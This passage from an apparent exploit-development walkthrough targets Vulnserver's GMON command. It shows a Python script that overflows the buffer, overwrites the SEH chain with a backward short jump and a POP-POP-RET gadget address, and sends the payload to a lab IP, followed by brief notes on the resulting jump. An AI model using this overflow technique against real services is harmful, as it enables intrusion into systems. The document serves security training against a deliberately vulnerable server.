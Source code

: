 ```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat overwrite-nseh.py
import socket, sys
# to overwrite buffer and EBP
payload=b"A"*3549
# to overwrite nSEH
payload+=b"\xeb\xcc"
payload+=b"\x90\x90" // need 4 bytes, so padded with 2 NOPS
# to overwrite SEH
payload+=b"\xb4\x10\x50\x62"
# padding
payload+=b"D"*(5000-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 overwrite-nseh.py
```

After crashing the server, we can see this after executing ```RET``` from our ```PPR Gadget```

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-jump-1.png">
</div>

Our opcode is placed perfectly and it allows us to jump in the stack memory backwards

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-jump-2.png">
</div>
